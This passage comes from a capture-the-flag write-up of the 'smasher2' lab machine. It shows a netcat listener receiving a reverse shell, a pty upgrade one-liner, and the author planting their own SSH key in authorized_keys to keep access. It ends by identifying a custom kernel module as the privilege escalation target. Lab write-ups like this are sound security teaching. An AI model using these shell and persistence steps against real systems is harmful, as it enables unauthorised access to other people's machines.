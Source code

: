 ```
# nc -lvnp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.135.
Ncat: Connection from 10.10.10.135:51882.
id
uid=1000(dzonerzy) gid=1000(dzonerzy) groups=1000(dzonerzy),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
python -c 'import pty;pty.spawn("/bin/bash")'
dzonerzy@smasher2:~/smanager$
```

After getting a shell, I dropped my RSA public key into `authorized_keys` so I could use a regular SSH session:

```
dzonerzy@smasher2:~$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQ
ABAAABAQC+SZ75RsfVTQxRRbezIJn+bQgNifXvjMWfhT1hJzl/GbTbykF
...
tGPTwuiA5NAcPKPG25jkQln3J8Id2ngappH2jeDg89 root@ragingunicorn" > .ssh/authorized_keys
```

```
# ssh dzonerzy@10.10.10.135
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-45-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * 'snap info' now shows the freshness of each channel.
   Try 'snap info microk8s' for all the latest goodness.

Last login: Fri Feb 15 22:05:15 2019
dzonerzy@smasher2:~$ id
uid=1000(dzonerzy) gid=1000(dzonerzy) groups=1000(dzonerzy),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
```

## Root privesc

After searching for a while I found a custom kernel module here:

- `./modules/4.15.0-45-generic/kernel/drivers/hid/dhid.ko`

This is clearly the target since the box creator's name is the module info:

```
$ modinfo ./modules/4.15.0-45-generic/kernel/drivers/hid/dhid.ko
filename:       /lib/./modules/4.15.0-45-generic/kernel/drivers/hid/dhid.ko
version:        1.0
description:    LKM for dzonerzy dhid devices
author:         DZONERZY
license:        GPL
srcversion:     974D0512693168483CADFE9
depends:        
retpoline:      Y
name:           dhid
vermagic:       4.15.0-45-generic SMP mod_unload
```
